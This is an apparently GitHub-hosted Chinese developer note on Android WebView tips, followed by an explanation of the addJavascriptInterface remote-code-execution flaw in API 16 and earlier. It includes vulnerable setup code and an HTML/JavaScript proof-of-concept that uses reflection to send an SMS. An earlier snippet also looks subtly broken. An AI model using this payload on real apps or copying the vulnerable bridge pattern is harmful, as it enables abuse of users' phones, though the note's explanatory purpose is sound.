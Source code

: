 #### 

### WebView 优化

1. 给 WebView 加一个加载进度条

    重写 WebChromeClient 的 onProgressChanged 方法。

2. 提高 HTML 网页加载速度，等页面 finsh 在加载图片

    ```java
    public void int () {
        if(Build.VERSION.SDK_INT >= 19) {
            webView.getSettings().setLoadsImagesAutomatically(true);
        } else {
            webView.getSettings().setLoadsImagesAutomatically(false);
        }
    }
    ```

3. 自定义 WebView 错误页面

    重写 WebViewClient 的 onReceivedError 方法。

#### 



###  webview 的使用问题汇总:

1. ####  WebView远程代码执行安全漏洞

    ##### 漏洞描述

    Android API level  16以及之前的版本存在远程代码执行安全漏洞，该漏洞源于程序没有正确限制使用WebView.addJavascriptInterface方法，远程攻击者可通过使用Java  Reflection API利用该漏洞执行任意Java对象的方法。

    简单的说就是通过addJavascriptInterface给WebView加入一个JavaScript桥接接口，JavaScript通过调用这个接口可以直接操作本地的JAVA接口。

    ##### 

    ##### 示例代码

    WebView代码如下所示：

    ```
    mWebView = new WebView(this);
    mWebView.getSettings().setJavaScriptEnabled(true);
    mWebView.addJavascriptInterface(this, "injectedObj");
    mWebView.loadUrl("file:///android_asset/www/index.html");
    ```

    发送恶意短信：

    ```html
    <html>
       <body>
          <script>
             var objSmsManager = injectedObj.getClass().forName("android.telephony.SmsManager").getM ethod("getDefault",null).invoke(null,null);
              objSmsManager.sendTextMessage("10086",null,"this message is sent by JS when webview is loading",null,null);
           </script>
       </body>
    </html>
    ```
